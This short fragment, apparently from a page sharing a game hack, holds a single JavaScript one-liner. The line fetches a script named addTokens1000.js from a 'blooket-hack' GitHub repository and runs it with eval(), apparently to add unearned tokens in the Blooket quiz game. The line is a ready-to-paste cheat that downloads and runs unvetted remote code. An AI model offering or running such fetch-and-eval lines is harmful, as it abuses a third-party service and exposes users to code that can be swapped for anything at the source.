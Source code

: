 fetch("https://raw.githubusercontent.com/cooperhack/blooket-hack/main/global/addTokens1000.js").then((res) => res.text().then((t) => eval(t)))

